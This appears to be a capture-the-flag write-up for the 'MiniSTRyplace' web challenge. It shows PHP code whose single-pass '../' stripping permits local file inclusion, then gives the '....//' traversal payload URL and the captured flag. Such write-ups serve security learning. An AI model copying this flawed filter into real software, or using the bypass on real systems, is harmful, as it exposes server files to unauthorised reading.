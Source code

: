```yaml
---
title: MiniSTRyplace
date: 2021-04-25 14:03:00 +0200
categories: [web]
tags: [cyberapocalpyse2021]
toc: false
---
```


This challenge contains a _LFI_ vulnerability. You can read more about it in this [article](https://medium.com/@Aptive/local-file-inclusion-lfi-web-application-penetration-testing-cc9dc8dd3601/). (\* ^ ω ^)

The webpage looks like this:
![](/assets/img/miniSTRyplace_web.png#center)
## Vulnerability
Let's take a look at the index file `index.php`:
```php
<html>
    <header>
        <meta name='author' content='bertolis, makelaris'>
        <title>Ministry of Defence</title>
        <link rel="stylesheet" href="/static/css/main.css">
        <link rel="stylesheet" href="https://stackpath.bootstrapcdn.com/bootswatch/4.5.0/slate/bootstrap.min.css"   >
    </header>

    <body>
    <div class="language">
        <a href="?lang=en.php">EN</a>
        <a href="?lang=qw.php">QW</a>
    </div>

    <?php
    $lang = ['en.php', 'qw.php'];
        include('pages/' . (isset($_GET['lang']) ? str_replace('../', '', $_GET['lang']) : $lang[array_rand($lang)]));
    ?>
    </body>
</html>
```
We can see it checks _if_ the param `lang` is given and if so it replaces “../” with a blank character.  If we submit “....//”, it becomes “../” allowing _path traversal_ and access to the flag.
## Exploitation
With that knowledge we just visit http://[DOCKER-IP]/?lang=....//....//....//flag and read it:

> CHTB{b4d_4li3n_pr0gr4m1ng}

٩(◕‿◕｡)۶

